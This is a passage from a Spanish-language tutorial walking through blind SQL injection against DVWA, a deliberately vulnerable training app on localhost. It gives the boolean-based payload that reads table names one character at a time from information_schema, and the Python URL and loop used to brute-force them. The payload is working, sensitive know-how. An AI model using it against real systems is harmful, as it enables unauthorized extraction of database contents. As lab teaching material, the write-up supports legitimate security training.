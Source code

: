 ![longitud](/assets/images/DVWA-SQLi/SQLiBlind-easy/longitud.png)

Así que ya sabemos que el tamaño de longitud de la segunda tabla es 9.

<br>

En este punto nos tocaría enumerar los nombres de dichas tablas empezando por la primera, para ello usaremos el mismo script, pero esta vez cambiaremos los mensajes que se muestran en pantalla, y lo más importante cambiar la consulta de la variable url y las veces que se repetirá el ciclo.

Primero, el primer for quedará así:

`for position in range(1,6):`

Ya que la longitud del nombre de la primera tabla recordamos que es 5, por lo que este ciclo se repetirá una vez por carácter y el siguiente for como sabemos ira fuzzeando cada valor y comprobar si ese valor es el correcto o no en base al mensaje de respuesta.

Lo siguiente a modificar fue la consulta de la variable URL que está dentro del for anidado:

La consulta normal es:

1' AND (SELECT SUBSTRING(table_name,1,1) FROM information_schema.tables WHERE table_schema = 'dvwa' limit 1)='a' -- -

Pero adaptarlo al codigo de python y url-encodeado quedaría así dentro de la variable url:

```py
url = "http://localhost/DVWA/vulnerabilities/sqli_blind/?id=1'+AND+(SELECT+SUBSTRING(table_name,%d,1)+FROM+information_schema.tables+WHERE+table_schema+='dvwa'+limit+1)='%s'+--+-&Submit=Submit" % (position, character)
```

Y también agregando los valores que irán fuzzeando las posiciones y caracteres.

> Hay otros valores que también deben cambiarse, pero no los mostre, ya que es lógico cambiar el nombre de los mensajes que vemos en pantalla.

Y al ejecutar el script podemos apreciar que recibiremos el nombre de la primera tabla:

![users](/assets/images/DVWA-SQLi/SQLiBlind-easy/users.png)
